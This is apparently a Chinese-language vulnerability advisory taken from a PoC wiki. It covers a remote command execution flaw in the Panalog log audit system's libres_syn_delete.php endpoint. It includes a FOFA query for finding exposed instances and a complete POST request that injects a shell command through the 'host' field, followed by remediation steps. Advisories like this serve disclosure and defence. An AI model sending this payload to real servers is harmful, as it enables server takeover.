

# 关于Panalog 日志审计系统 libres_syn_delete.php RCE漏洞预警

# 漏洞描述

Panalog日志审计系统 libres_syn_delete.php接口处存在远程命令执行漏洞，攻击者可执行任意命令，接管服务器权限。

# 影响范围

version <= MARS r10p1Free

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="Panabit-Panalog"

POC/EXP：

POST /content-apply/libres_syn_delete.php HTTP/1.1
Host: 127.0.0.1:4432
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 35
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded

token=1&id=2&host=|whoami >haha.txt

# 修复方案

**官方修复：**

⼚商已发布了漏洞修复程序，请及时关注更新： https://www.panabit.com

通过防⽕墙等安全设备设置访问策略，设置⽩名单访问。

如⾮必要，禁⽌公⽹访问该系统。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
